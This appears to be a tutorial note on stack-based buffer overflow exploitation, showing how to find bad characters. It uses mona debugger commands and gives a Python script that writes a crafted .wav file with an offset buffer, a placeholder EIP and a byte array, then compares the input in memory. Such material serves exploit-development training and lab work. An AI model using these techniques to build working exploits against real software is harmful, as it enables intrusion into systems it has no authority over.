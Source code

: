 # Stack Based Buffer Overflow 


> Before we control ther EIP, we need to determine any characters we need to avoid using in our payload

It is important to find bad chars because depending on the processing each program executes on our input, certain characters may tell the program that it has reached the end of the input. This may happen even though it may not have reached the end of the input yet.

### Generating Bad characters 
`!mona config -set workingfolder c:\mona\%p`  
Byte Array: `!mona bytearray -cpb "\x00"` 
Make sure these bad chars are bytes and not ascii. 
If writing as piece of code, make sure there is b before the string quotes. `b"\x01..."`
If writing to a text file, make sure you open the file as "wb" -> write bytes

Next step is to update our code:
```
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07...
    ])
    
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars
    
    with open('chars.wav', 'wb') as f:
        f.write(payload)

bad_chars()
```
Now we load this file in and see if there are any differences bertween our input in memory and the .bin file.

### Comparing Input 

Find Bad chars with mona `!mona compare -f <path to .bin file generated> -a <esp value after running script above>`

**Characters such as `0x00`, `0x0a`, `0x0d` are generally bad characters**


